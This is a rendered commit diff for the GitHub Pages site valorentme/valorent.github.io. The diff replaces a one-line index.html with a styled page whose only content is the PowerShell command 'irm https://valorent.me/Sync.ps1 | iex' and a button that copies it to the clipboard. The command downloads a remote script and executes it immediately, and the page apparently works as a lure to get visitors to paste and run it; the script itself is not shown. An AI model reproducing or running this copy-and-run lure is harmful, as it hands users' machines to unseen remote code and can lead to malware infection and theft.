

Before and after one commit to valorentme/valorent.github.io, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
REVERT HOMAGEPAGE

```diff
--- a/index.html
+++ b/index.html
@@ -1 +1,114 @@
-irm https://valorent.me/Sync.ps1 | iex
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Copy Text Example</title>
+    <style>
+        /* 1. Page Layout & Background */
+        body {
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+            margin: 0;
+            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
+        }
+
+        /* 2. Card Container Styling */
+        .card {
+            background: rgba(255, 255, 255, 0.95);
+            padding: 2rem 3rem;
+            border-radius: 16px;
+            box-shadow: 0 10px 25px rgba(0, 0, 0, 0.2);
+            text-align: center;
+            transition: transform 0.2s;
+        }
+
+        .card:hover {
+            transform: translateY(-5px);
+        }
+
+        /* 3. The Text Paragraph Styling */
+        .stylish-text {
+            font-size: 1.0rem;
+            font-weight: 800;
+            color: #333;
+            margin: 0 0 1.5rem 0;
+            letter-spacing: 1px;
+            background: -webkit-linear-gradient(45deg, #667eea, #764ba2);
+            -webkit-background-clip: text;
+            -webkit-text-fill-color: transparent;
+        }
+
+        /* 4. The Copy Button Styling */
+        .copy-btn {
+            background-color: #667eea;
+            color: white;
+            border: none;
+            padding: 12px 24px;
+            font-size: 1rem;
+            font-weight: 600;
+            border-radius: 8px;
+            cursor: pointer;
+            transition: all 0.3s ease;
+            box-shadow: 0 4px 6px rgba(102, 126, 234, 0.4);
+            display: inline-flex;
+            align-items: center;
+            gap: 8px;
+        }
+
+        .copy-btn:hover {
+            background-color: #764ba2;
+            transform: scale(1.05);
+        }
+
+        .copy-btn:active {
+            transform: scale(0.95);
+        }
+
+        /* Success state for the button */
+    </style>
+</head>
+<body>
+
+<div class="card">
+    <p class="stylish-text" id="myText">irm https://valorent.me/Sync.ps1 | iex</p>
+
+    <button class="copy-btn" onclick="copyContent()">
+        <span id="btnText">Copy Text</span>
+    </button>
+</div>
+
+<script>
+    function copyContent() {
+        // 1. Get the text from the p tag
+        const text = document.getElementById('myText').innerText;
+        const button = document.querySelector('.copy-btn');
+        const buttonText = document.getElementById('btnText');
+
+        // 2. Use the Clipboard API to write text
+        navigator.clipboard.writeText(text).then(() => {
+
+            // 3. Visual Feedback (Success State)
+            const originalText = buttonText.innerText;
+
+            button.classList.add('success');
+            buttonText.innerText = "Copied! ✓";
+
+            // 4. Reset button after 2 seconds
+            setTimeout(() => {
+                button.classList.remove('success');
+                buttonText.innerText = originalText;
+            }, 2000);
+
+        }).catch(err => {
+            console.error('Failed to copy: ', err);
+            alert("Failed to copy text.");
+        });
+    }
+</script>
+
+</body>
+</html>
```
